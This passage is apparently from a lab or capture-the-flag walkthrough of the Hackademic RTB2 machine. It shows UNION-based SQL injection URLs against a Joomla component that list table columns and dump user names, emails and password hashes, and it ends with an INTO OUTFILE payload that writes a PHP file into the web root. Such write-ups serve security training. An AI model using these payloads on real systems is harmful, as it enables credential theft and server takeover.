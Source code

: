 ```
jos_core_log_searches
jos_groups
jos_menu
jos_menu_types
jos_messages
jos_messages_cfg
jos_migration_backlinks
jos_modules
jos_modules_menu
jos_newsfeeds
jos_plugins
jos_poll_data
jos_poll_date
jos_poll_menu
jos_polls
jos_sections
jos_session
jos_stats_agents
jos_template_banner
jos_templates_menu
jos_users
jos_weblinks
```

* List column name of wp_users table
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,group_concat(column_name) FROM information_schema.columns WHERE table_schema=CHAR(106, 111, 111, 109, 108, 97) AND table_name = CHAR(106, 111, 115, 95, 117, 115, 101, 114, 115)--&letter=A

id,name,username,email,password,usertype,block,sendEmail,gid,registerDate,lastvisitDate,activation,params
```

* Dump data name,username,email,password,usertype
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,group_concat(name,CHAR(44),username,CHAR(44),email,CHAR(44),password,CHAR(44),usertype,CHAR(59)) FROM joomla.jos_users--&letter=A

Administrator,Administrator,admin@hackademirtb2.com,08f43b7f40fb0d56f6a8fb0271ec4710:n9RMVci9nqTUog3GjVTNP7IuOrPayqAl,Super Administrator;
,John Smith,JSmith,JSmith@hackademicrtb.com,992396d7fc19fd76393f359cb294e300:70NFLkBrApLamH9VNGjlViJLlJsB60KF,Registered;
,Billy Tallor,BTallor,BTallor@hackademic.com,abe1ae513c16f2a021329cc109071705:FdOr
```

After take some time for SQLi you may decrypt administrator password and gain access to Joomla administrative page. But after check other ways I found that the MySql user has privilege to create file in /var/www/. I tested by guessing the path by create phpinfo page at /var/www/info.php
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,CHAR(60, 63, 112, 104, 112, 32, 112, 104, 112, 105, 110, 102, 111, 40, 41, 59, 63, 62) INTO OUTFILE "/var/www/info.php"--&letter=A

http://192.168.175.141:666/info.php
```
